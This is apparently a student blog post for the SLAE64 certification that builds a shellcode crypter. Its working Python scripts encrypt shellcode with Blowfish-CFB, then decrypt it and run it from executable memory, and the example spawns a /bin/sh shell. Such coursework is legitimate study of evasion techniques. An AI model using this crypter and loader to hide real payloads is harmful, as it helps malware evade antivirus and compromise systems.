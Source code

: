 Assignment #7 – Crypters
========================

For this assignment I had to create a crypter, i.e. a program to encrypt a shellcode. This encrypted shellcode can then be decrypted and executed at runtime. Any encryption algorithm and programming language could be used. I chose to use [Blowfish][wikipedia_blowfish] in [Cipher Feedback mode][wikipedia_cfb] (CFB).

I could have implemented Blowfish myself, but I decided that was out of scope for this course. Instead I used [this implementation][github_blowfish]. To use it you just have to install it with `pip3 install --user blowfish`.

My crypter can be seen below.

    #!/usr/bin/env python3
    import sys
    import blowfish

    key = bytes(sys.argv[1], 'utf-8')
    shellcode = bytes.fromhex(sys.argv[2].replace('\\x', ''))

    iv = b'\x00\x00\x00\x00\x00\x00\x00\x00' #urandom(8)
    cipher = blowfish.Cipher(key)
    blocks = cipher.encrypt_cfb(shellcode, iv)

    output = []
    for block in blocks:
        for byte in block:
            output.append(byte)

    print()
    print(''.join(['\\x{:02x}'.format(b) for b in output]))
    print()
    print(','.join(['0x{:02x}'.format(b) for b in output]))

It expects two arguments. The first is the key (or password) with which the shellcode will be encrypted. The second is the shellcode to encrypt. As an example we can encrypt an `execve` stack shellcode:

    $ ./blowfish-encrypt.py pass '\x31\xc0\x50\x54\x5a\x48\xbe\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x54\x5f\x50\x57\x54\x5e\xb0\x3b\x0f\x05' | fold

    \x03\x89\xc1\xa0\xbf\xb6\xdb\x63\xa8\xa2\xb3\x21\x18\x0e\x2e\x42\xdc\x7a\x58\x12
    \x13\xe5\xb3\x7e\xed\x33

    0x03,0x89,0xc1,0xa0,0xbf,0xb6,0xdb,0x63,0xa8,0xa2,0xb3,0x21,0x18,0x0e,0x2e,0x42,
    0xdc,0x7a,0x58,0x12,0x13,0xe5,0xb3,0x7e,0xed,0x33

As a note, CFB expects an [initialisation vector][wikipedia_iv] (IV) which should be random. The IV guarantees that multiple ciphertexts can be generated for a given plaintext and key. The IV used to encrypt the plaintext must be known to decrypt it. The easiest way is to use a fixed IV, which I did here. But of course it's not the most secure. We're relying on the key alone here, which I think is enough for our purpose.

Decrypting and executing
------------------------

The script to decrypt and execute the shellcode can be seen below.

    #!/usr/bin/env python3
    import sys
    import blowfish
    import mmap
    import ctypes

    key = bytes(sys.argv[1], 'utf-8')
    enc_shellcode = bytes.fromhex(sys.argv[2].replace('\\x', ''))

    iv = b'\x00\x00\x00\x00\x00\x00\x00\x00' #urandom(8)
    cipher = blowfish.Cipher(key)
    blocks = cipher.decrypt_cfb(enc_shellcode, iv)

    shellcode = []
    for block in blocks:
        for byte in block:
            shellcode.append(byte)

    shellcode_bytes = bytes(shellcode)

    # execute shellcode
    exec_mem = mmap.mmap(-1, len(shellcode_bytes), prot = mmap.PROT_READ |
            mmap.PROT_WRITE | mmap.PROT_EXEC, flags = mmap.MAP_ANONYMOUS |
            mmap.MAP_PRIVATE)
    exec_mem.write(shellcode_bytes)

    ctypes_buffer = ctypes.c_int.from_buffer(exec_mem)
    func = ctypes.CFUNCTYPE(ctypes.c_int64)(ctypes.addressof(ctypes_buffer))
    func._avoid_gc_for_mmap = exec_mem

    func()

The first part decrypts and the second executes. The first argument to the script is the password and the second is the encrypted shellcode. As an example let's execute the payload we encrypted before:

    $ ./blowfish-execute.py pass '\x03\x89\xc1\xa0\xbf\xb6\xdb\x63\xa8\xa2\xb3\x21\x18\x0e\x2e\x42\xdc\x7a\x58\x12\x13\xe5\xb3\x7e\xed\x33'
    sh-5.0$ whoami
    goncalor

We can see it spawned a shell as expected.

That's all for this assignment. I hope you enjoyed it.


[wikipedia_blowfish]: https://en.wikipedia.org/wiki/Blowfish_(cipher)
[wikipedia_cfb]: https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Cipher_Feedback_(CFB)
[wikipedia_iv]: https://en.wikipedia.org/wiki/Initialization_vector
[github_blowfish]: https://github.com/jashandeep-sohi/python-blowfish

----

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert][SLAE64] certification.

Student ID: SLAE64-1635

[SLAE64]: https://www.pentesteracademy.com/course?id=7
